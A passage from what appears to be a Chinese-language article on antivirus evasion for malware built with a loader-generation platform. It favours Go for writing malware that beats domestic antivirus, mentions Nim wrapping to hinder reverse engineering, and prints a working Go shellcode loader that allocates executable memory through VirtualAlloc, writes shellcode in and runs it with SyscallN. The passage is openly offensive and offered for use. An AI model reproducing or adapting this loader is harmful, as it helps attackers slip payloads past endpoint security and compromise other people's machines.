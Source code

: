 同样的代码，有了 nim 的“包裹”，也会为逆向分析增加一定难度

[![](assets/1706254282-aeb6f8e1c3ebf151bb925569b9212a95.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125223014-40e0b864-bb8e-1.png)

# Go 免杀

平台自带的杀软对抗方案主要是 Go 语言的，使用 Go 语言来编写恶意软件，有几个优点：相对 C 语言，语法简单，库生态也较为丰富（对于对抗杀软来说，例如 syscall，c 语言有的 api go 也有），缺点是生成体积较大。但对抗国内杀软已经足够。

下面是 golang 调用 Shellcode 的几种方式，SyscallN 已经集成在默认模板中，CreateThread 和 EnumThreadWindows 的方式在读完文章后可以自行加入到模板中

## SyscallN

这是平台自带模板中的代码片段，加载器通过 syscall 直接系统调用来申请一块内存，使用自实现的 WriteMemory 函数来将 Shellcode 写入到内存中，然后调用 SyscallN 来执行。

```bash
func Ldr1(calc []byte) {

    mKernel32, _ := syscall.LoadDLL("kernel32.dll")
    fVirtualAlloc, _ := mKernel32.FindProc("VirtualAlloc")
    calc_len := uintptr(len(calc))
    Ptr1, _, _ := fVirtualAlloc.Call(uintptr(0), calc_len, windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_EXECUTE_READWRITE)
    WriteMemory(calc, Ptr1)
    syscall.SyscallN(Ptr1, 0, 0, 0, 0)
}
```
